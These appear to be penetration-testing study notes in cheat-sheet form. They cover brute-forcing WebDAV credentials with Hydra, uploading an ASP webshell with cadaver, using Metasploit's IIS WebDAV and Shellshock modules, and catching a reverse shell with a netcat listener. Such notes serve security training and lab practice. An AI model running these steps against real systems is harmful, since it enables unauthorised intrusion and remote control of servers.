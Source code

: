 # WebDav
NOTE: Will need credentials, webdav implements authentication (username: password) - Brute Force Requred (Hydra/Metasploit)

Is it configured to run on IIS? 
Post gaining legit credentials, upload a malicious asp payload that can be used to execute commands or gain reverse shell

## Scan to see version being ran
nmap -sV -p 80 --script=http-enum TARGET

## Brute Force for Credentials 
Hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt TARGET http-get /webdav/

Davtest -auth user:password -url http://TARGET/webdav

Cadaver http://TARGET/webdav
Add Webshell: put /usr/share/webshells/asp/webshell.asp

# Metasploit

Choose module: Exploit/windows/iis/iis_webdav_upload_asp -> Set: RHOST, HttpUsername, HttpPassword, PATH (/webdav/metasploit%RAND%.asp)

# ShellShock
(Scan to check if vulnerable) 

Nmap -sV IP -- script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"

Open Burp Suite

Proxy -> make sure intercept is on 
Send request to repeater

## To gain reverse shell 

Set up Netcat: nc -nvlp 1234

Once connection is established go back to burp suite

Paste IP in burp -> Send -> Get reverse shell

## With Metasploit
search shellshock 

(Scan) auxiliary/scanner/http/apche_mod_cgi_bash_environment Variable Injection (Shellshock) Scanner -> set targeturi to .cgi page 

(Exploit) exploit/multi/http/apache_mod_cgi_bash_environment Variable Code Injection (Shellshock) -> set LHOST
